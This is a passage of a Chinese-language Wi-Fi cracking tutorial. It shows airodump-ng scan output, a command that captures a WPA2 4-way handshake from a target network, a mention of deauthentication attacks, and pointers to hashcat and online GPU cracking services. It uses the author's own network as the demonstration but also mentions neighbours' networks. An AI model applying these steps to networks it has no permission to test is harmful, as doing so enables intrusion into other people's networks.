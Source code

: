 ```
 9C:5C:8E:C9:AB:C0  -81       19        0    0   3  54e  WPA2 CCMP   PSK  hackme                                                                 
 00:23:69:AD:AF:94  -82      350        4    0   1  54e  WPA2 CCMP   PSK  Kaitlin's Awesome                                                   
 06:26:BB:75:ED:69  -84      232        0    0   1  54e. WPA2 CCMP   PSK  HH2                                                                 
 78:71:9C:99:67:D0  -82      339        0    0   1  54e. WPA2 CCMP   PSK  ARRIS-67D2                                                          
 9C:34:26:9F:2E:E8  -85       40        0    0   1  54e. WPA2 CCMP   PSK  Comcast_2EEA-EXT                                                    
 BC:EE:7B:8F:48:28  -85      119       10    0   1  54e  WPA2 CCMP   PSK  root                                                                
 EC:1A:59:36:AD:CA  -86      210       28    0   1  54e  WPA2 CCMP   PSK  belkin.dca
```

出于这个演示的目的，我们将会破解我自己的网络，"hackme"。记住利用 `airodump-ng` 展示的 BSSID， MAC 地址以及信道（`CH`）号，在下一个步骤中我们将会需要它们。

### 捕获 4-way Handshake

WPA/WPA2 使用 [4-way Handshake](https://security.stackexchange.com/questions/17767/four-way-handshake-in-wpa-personal-wpa-psk) 来认证设备连接网络。你不需要明白这些的含意，但是你必须抓取 handshake 才能破解网络密码。这些握手发生在设备连接网络的时候，比如，当你的邻居工作回家的时候。我们通过之前命令发现的信道以及 bssid 值来使用 `airmon-ng` 来监视目标网络。

```bash
# 将 -c 以及 --bssid 值替换为你的目标网络值
# -w 用来指定我们保存捕获到数据包的文件夹
airodump-ng -c 3 --bssid 9C:5C:8E:C9:AB:C0 -w . mon0
```
```
 CH  6 ][ Elapsed: 1 min ][ 2017-07-23 16:09 ]                                        
                                                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                              
 9C:5C:8E:C9:AB:C0  -47   0      140        0    0   6  54e  WPA2 CCMP   PSK  ASUS  
```

现在让我们等一会儿... 当我们捕捉到一个握手时，你应该能够马上在屏幕的右上角看到类似于`[ WPA handshake: bc:d3:c9:ef:d2:67`的一些东西。

如果你不想等，也不反感进行一次主动攻击，你可以强制设备连接到目标网络来重新连接，并且在目标网络中发送恶意 deauthentication 数据包。通常这样就可以抓到  4-way handshake 了。参考下面的 [deauth 攻击章节](#deauth-attack) 来获取关于此的信息。

一旦你捕获了一个握手，按下 `ctrl-c` 来终止 `airodump-ng`。这是在你指定的 `airodump-ng` 输出目录下，应该看到一个用来保存捕获信息的`.cap`文件（比如叫做`-01.cap`）。我们将会使用这个捕获文件来破解网络密码。个人喜欢将这个文件重命名为当前正在尝试破解的网络名称：

```bash
mv ./-01.cap hackme.cap
```

### 破解网络密码

最后一个步骤是使用捕获的 handshake 数据来破解密码。如果你能够访问 GPU，我**强烈**建议你使用 `hashcat` 来破解密码。我已经创建了一个叫做 [`naive-hashcat`](https://github.com/brannondorsey/naive-hashcat) 的简单工具可以让使用 hashcat 变得非常方便。如果你不能够访问 GPU，还有很多在线的 GPU 破解服务可以使用，比如 [GPUHASH.me](https://gpuhash.me/) 或者 [OnlineHashCrack](https://www.onlinehashcrack.com/wifi-wpa-rsna-psk-crack.php) 。你也可以常使用 Aircrack-ng 来进行 CPU 破解。
